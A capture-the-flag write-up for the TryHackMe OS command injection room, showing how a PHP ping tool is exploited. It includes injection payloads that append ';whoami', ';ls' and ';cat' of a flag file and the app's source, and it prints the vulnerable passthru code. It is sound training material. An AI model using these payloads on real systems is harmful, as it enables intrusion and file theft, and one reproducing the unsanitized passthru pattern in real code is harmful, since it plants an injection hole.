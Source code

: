 # oscommandinjection

### https://tryhackme.com/room/oscommandinjection
### Hein Andre Grønnestad
### 2021-10-10

---

## Task 5

We have access to the following web interface:

![](01-screenshot.png)

This web tool can be used to ping an IP address. Let's try it:

![](02-screenshot.png)

After waiting for the `ping`-command to finish, we get the following results back:

```
Here is your command: 127.0.0.1

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.028 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3061ms rtt min/avg/max/mdev = 0.015/0.025/0.030/0.006 ms
```

### Task 5 - What user is this application running as?

We need to try and execute the `whoami`-command through the web interface to see which user the web application is running as.

Let's start by guessing that the server side code looks something like this:

```php
echo system("ping $user_input");
```

So when we enter `127.0.0.1` it will look like this:

```php
echo system("ping 127.0.0.1");
```

We can only change the part that comes after `ping `.

The simplest thing would be to try to add an extra command to the input.

Let's try the follwing payload where we add another command by adding a `;` followed by a second command:

```
127.0.0.1;whoami
```

This is what we receive back. Notice the `{whoami_output}` at the end of the output:

```
Here is your command: 127.0.0.1;whoami

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3080ms rtt min/avg/max/mdev = 0.016/0.028/0.038/0.007 ms {whoami_output}
```

If we ommit the ip address we don't even have to wait for the `ping`-command to finish.

Payload:
```
;whoami
```

Output:
```
Here is your command: ;whoami

Output:

{whoami_output}
```

### Task 5 - What are the contents of the flag located in /home/tryhackme/flag.txt?

Payload:
```
;cat /home/tryhackme/flag.txt
```

Output:
```
Here is your command: ;cat /home/tryhackme/flag.txt

Output:

THM{**************************}
```

## Extra Credit

### Exfiltrate Web App Code

Payload:
```
;ls
```

Output:
```
Here is your command: ;ls

Output:

css img index.php js test.php
```

Payload:
```
;cat index.php
```

Output Screenshot:

![](03-screenshot.png)

We can see the HTML-page renderen in the browser, but with the PHP-variables visible.

"View Page Source" gives us the following:

Output:
```php
// ... HTML template removed
<?php
if (isset($_GET["address"])) {
    $command = $_GET["address"];
    echo "<p><b>Here is your command: </b>$command</p>";

    echo "<p><b>Output: </b>$result</p>";

    $result = passthru("/bin/ping -c 4 ".$_GET["address"]);
}
?>
```

We can clearly see the vulnerable code:
```php
$result = passthru("/bin/ping -c 4 ".$_GET["address"]);
```


### Reverse Shell
We could probably get a reverse shell from the server as well.
